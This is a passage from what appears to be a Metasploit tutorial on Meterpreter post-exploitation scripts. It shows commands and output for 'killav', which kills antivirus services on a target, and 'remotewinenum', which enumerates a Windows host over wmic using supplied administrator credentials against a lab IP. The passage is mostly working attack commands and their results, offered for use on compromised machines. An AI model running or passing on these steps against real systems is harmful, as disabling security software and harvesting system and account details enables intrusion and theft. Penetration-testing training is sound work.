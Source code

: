 ```
meterpreter > run killav

[*] Killing Antivirus services on the target...
[*] Killing off cmd.exe...
```

# 9 - remotewinenum

The remotewinenum script will enumerate system information through wmic on victim. Make note of where the logs are stored.

```
meterpreter > run remotewinenum

[!] Meterpreter scripts are deprecated. Try post/windows/gather/wmic_command.
[!] Example: run post/windows/gather/wmic_command OPTION=value [...]
Remote Windows Enumeration Meterpreter Script
This script will enumerate windows hosts in the target enviroment
given a username and password or using the credential under witch
Meterpeter is running using WMI wmic windows native tool.
Usage:

OPTIONS:

    -h        Help menu.
    -p   Password of user on target system
    -t   The target address
    -u   User on the target system (If not provided it will use credential of process)
```

```
meterpreter > run remotewinenum -u administrator -p ihazpassword -t 10.211.55.128

[*] Saving report to /root/.msf4/logs/remotewinenum/10.211.55.128_20090711.0142
[*] Running WMIC Commands ....
[*]     running command wimic environment list
[*]     running command wimic share list
[*]     running command wimic nicconfig list
[*]     running command wimic computersystem list
[*]     running command wimic useraccount list
[*]     running command wimic group list
[*]     running command wimic sysaccount list
[*]     running command wimic volume list brief
[*]     running command wimic logicaldisk get description,filesystem,name,size
[*]     running command wimic netlogin get name,lastlogon,badpasswordcount
[*]     running command wimic netclient list brief
[*]     running command wimic netuse get name,username,connectiontype,localname
[*]     running command wimic share get name,path
[*]     running command wimic nteventlog get path,filename,writeable
[*]     running command wimic service list brief
[*]     running command wimic process list brief
[*]     running command wimic startup list full
[*]     running command wimic rdtoggle list
[*]     running command wimic product get name,version
[*]     running command wimic qfe list
```
